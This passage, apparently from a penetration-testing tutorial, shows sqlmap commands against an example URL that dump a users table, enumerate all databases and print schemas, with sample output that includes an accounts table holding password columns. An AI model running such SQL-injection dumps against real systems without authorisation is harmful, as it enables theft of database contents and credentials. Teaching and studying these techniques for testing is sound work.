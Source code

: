 `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`

    ...SNIP...
    Database: testdb

    Table: users
    [1 entry]
    +----+--------+---------+
    | id | name   | surname |
    +----+--------+---------+
    | 2  | fluffy | bunny   |
    +----+--------+---------+

### Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

## Advanced Database Enumeration

### DB Schema Enumeration

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:

`sqlmap -u "http://www.example.com/?id=1" --schema`

    ...SNIP...
    Database: master
    Table: log
    [3 columns]
    +--------+--------------+
    | Column | Type         |
    +--------+--------------+
    | date   | datetime     |
    | agent  | varchar(512) |
    | id     | int(11)      |
    +--------+--------------+

    Database: owasp10
    Table: accounts
    [4 columns]
    +-------------+---------+
    | Column      | Type    |
    +-------------+---------+
    | cid         | int(11) |
    | mysignature | text    |
    | password    | text    |
    | username    | text    |
    +-------------+---------+
    ...